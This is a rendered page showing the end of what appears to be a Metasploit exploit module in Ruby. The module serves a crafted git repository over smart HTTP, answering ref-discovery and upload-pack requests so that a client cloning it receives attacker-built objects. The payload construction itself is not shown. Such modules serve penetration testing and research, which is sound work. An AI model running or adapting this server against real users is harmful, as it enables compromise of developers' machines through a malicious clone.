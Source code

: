 ```ruby
        sha1: tree_object.sha1
      }
    ]
    top_level_obj = Msf::Exploit::Git::GitObject.build_tree_object(entries)

    # create commit
    commit_object = Msf::Exploit::Git::GitObject.build_commit_object(tree_sha1: top_level_obj.sha1)

    # create list of objects in repository, as the
    # client will request them to build the repository
    @git_objs =
      [
        commit_object, top_level_obj, tree_object,
        file_blob, tree_object, blob
      ]

    @refs =
      {
        'HEAD' => 'refs/heads/master',
        'refs/heads/master' => commit_object.sha1
      }
  end

  def create_git_uri
    "/#{Faker::App.name.downcase}.git".gsub(' ', '-')
  end

  def primer
    @git_repo_uri = datastore['GIT_URI'].empty? ? create_git_uri : datastore['GIT_URI']
    @git_addr = URI.parse(get_uri).merge(@git_repo_uri)
    print_status("Git repository to clone: #{@git_addr}")
    hardcoded_uripath(@git_repo_uri)
  end

  def on_request_uri(cli, req)
    request = Msf::Exploit::Git::SmartHttp::Request.parse_raw_request(req)
    case request.type
    when 'ref-discovery'
      response = get_ref_discovery_response(request, @refs)
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid ref-discovery request') unless response
    when 'upload-pack'
      response = get_upload_pack_response(request, @git_objs)
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid upload-pack request') unless response
    else
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid request')
    end

    cli.send_response(response)
  end
end
```


[1]: https://github.com/rapid7/metasploit-framework/blob/b1a6d9d30778bed11276ac8685f88d0a4dc98e19/lib/msf/core/exploit/git.rb
[2]: https://github.com/rapid7/metasploit-framework/blob/b1a6d9d30778bed11276ac8685f88d0a4dc98e19/lib/msf/core/exploit/git/smart_http.rb
[3]: https://git-scm.com/docs/http-protocol